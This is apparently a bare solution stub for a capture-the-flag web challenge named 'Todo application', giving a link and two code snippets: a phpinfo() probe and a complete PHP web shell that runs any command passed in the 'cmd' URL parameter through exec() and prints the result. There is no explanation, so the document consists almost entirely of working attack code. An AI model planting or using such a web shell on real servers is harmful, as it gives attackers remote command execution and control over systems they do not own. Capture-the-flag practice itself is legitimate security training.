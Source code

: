 # Todo application:
Link: https://battle.cookiearena.org/challenges/web/todo-application


code:
```
<? phpinfo();?>
```
code:
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="100">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
      $a= exec($_GET['cmd']);
    }
    echo($a);
?>
</pre>
</body>
</html>
```
